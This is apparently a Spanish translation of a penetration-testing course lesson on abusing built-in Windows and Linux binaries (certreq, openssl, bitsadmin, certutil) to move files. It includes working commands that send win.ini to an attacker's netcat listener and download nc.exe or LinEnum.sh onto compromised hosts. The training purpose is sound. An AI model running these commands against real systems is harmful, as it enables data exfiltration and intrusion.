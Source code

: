 La frase "Living off the land" fue acuñada por Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) y Matt Graeber [@mattifestation](https://twitter.com/mattifestation) en [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

El término LOLBins (Living off the Land binaries) surgió de una discusión en Twitter sobre cómo llamar a los binarios que un atacante puede usar para realizar acciones más allá de su propósito original. Actualmente, existen dos sitios web que recopilan información sobre los binarios Living off the Land:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Los binarios Living off the Land se pueden usar para realizar funciones como:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

Esta sección se enfocará en usar los proyectos LOLBAS y GTFOBins y proporcionará ejemplos para funciones de descarga y carga en sistemas Windows y Linux.

---

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io/#) y [GTFOBins for Linux](https://gtfobins.github.io/) son sitios web donde podemos buscar binarios que podemos usar para diferentes funciones.

### LOLBAS

Para buscar funciones de descarga y carga en [LOLBAS](https://lolbas-project.github.io/) podemos usar `/download` o `/upload`.

![image](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Usemos [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) como ejemplo.

Necesitamos escuchar en un puerto en nuestro host de ataque para el tráfico entrante usando Netcat y luego ejecutar certreq.exe para cargar un archivo.

### Upload win.ini to our Pwnbox

```r
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

Esto enviará el archivo a nuestra sesión de Netcat, y podemos copiar y pegar su contenido.

### File Received in our Netcat Session

```r
sudo nc -lvnp 8000

listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Si obtienes un error al ejecutar `certreq.exe`, la versión que estás usando puede no contener el parámetro `-Post`. Puedes descargar una versión actualizada [aquí](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) y volver a intentarlo.

### GTFOBins

Para buscar la función de descarga y carga en [GTFOBins for Linux Binaries](https://gtfobins.github.io/), podemos usar `+file download` o `+file upload`.

![image](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Usemos [OpenSSL](https://www.openssl.org/). Frecuentemente está instalado e incluido en otras distribuciones de software, con sysadmins usándolo para generar certificados de seguridad, entre otras tareas. OpenSSL se puede usar para enviar archivos "nc style".

Necesitamos crear un certificado y iniciar un servidor en nuestro Pwnbox.

### Create Certificate in our Pwnbox

```r
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

### Stand up the Server in our Pwnbox

```r
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

A continuación, con el servidor en funcionamiento, necesitamos descargar el archivo desde la máquina comprometida.

### Download File from the Compromised Machine

```r
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

## Other Common Living off the Land tools

### Bitsadmin Download function

El [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) se puede usar para descargar archivos desde sitios HTTP y shares SMB. Toma en cuenta "inteligentemente" la utilización del host y la red para minimizar el impacto en el trabajo de primer plano de un usuario.

### File Download with Bitsadmin

```r
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell también permite la interacción con BITS, habilita la descarga y carga de archivos, admite credenciales y puede usar servidores proxy especificados.

### Download

```r
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---

### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) descubrió que Certutil se puede usar para descargar archivos arbitrarios. Está disponible en todas las versiones de Windows y ha sido una técnica popular de transferencia de archivos, sirviendo como un `wget` de facto para Windows. Sin embargo, la Interfaz de Escaneo Antimalware (AMSI) actualmente detecta esto como uso malicioso de Certutil.

### Download a File with Certutil

```r
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

---

## Extra Practice

Vale la pena revisar los sitios web de LOLBAS y GTFOBins y experimentar con tantos métodos de transferencia de archivos como sea posible. Cuanto más oscuros, mejor. Nunca sabes cuándo necesitarás uno de estos binarios durante una evaluación, y te ahorrará tiempo si ya tienes notas detalladas sobre múltiples opciones. Algunos de los binarios que se pueden aprovechar para transferencias de archivos pueden sorprenderte.

En las dos secciones finales, abordaremos consideraciones de detección con respecto a las transferencias de archivos y algunos pasos que podemos seguir para evadir la detección si el alcance de nuestra evaluación lo requiere.